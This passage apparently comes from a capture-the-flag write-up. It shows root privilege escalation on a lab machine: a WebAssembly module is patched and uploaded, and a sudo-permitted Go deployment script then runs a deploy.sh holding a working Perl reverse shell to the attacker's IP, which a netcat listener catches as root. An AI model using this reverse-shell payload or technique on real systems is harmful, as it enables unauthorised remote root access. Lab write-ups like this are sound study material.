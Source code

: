 With a minor tweak to it, we can change the return value of `$info`

```
(module
  (type (;0;) (func (result i32)))
  (func $info (type 0) (result i32)
    i32.const 1)
  (table (;0;) 1 1 funcref)
  (memory (;0;) 16)
  (global (;0;) (mut i32) (i32.const 1048576))
  (global (;1;) i32 (i32.const 1048576))
  (global (;2;) i32 (i32.const 1048576))
  (export "memory" (memory 0))
  (export "info" (func $info))
  (export "__data_end" (global 1))
  (export "__heap_base" (global 2)))
```

Now, reassembling the file:

```bash
$ wabt/bin/wat2wasm main.wat -o main.wasm
$ scp main.wasm admin@10.10.10.227:/tmp/
```

Now that we have the changed `main.wasm` ready, lets craft a simple reverse shell payload and execute the `index.go` script.

```bash
$ cat deploy.sh 
#!/bin/bash

perl -e 'use Socket;$i="10.10.14.204";$p=83;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
$ sudo /usr/bin/go run /opt/wasm-functions/index.go
Ready to deploy
```

Catching the reverse shell with a netcat listener:

```bash
$ sudo rlwrap nc -lnvp 83
listening on [any] 83 ...
connect to [10.10.14.204] from (UNKNOWN) [10.10.10.227] 36116
id
uid=0(root) gid=0(root) groups=0(root)
# 
```

Success!! We have root!
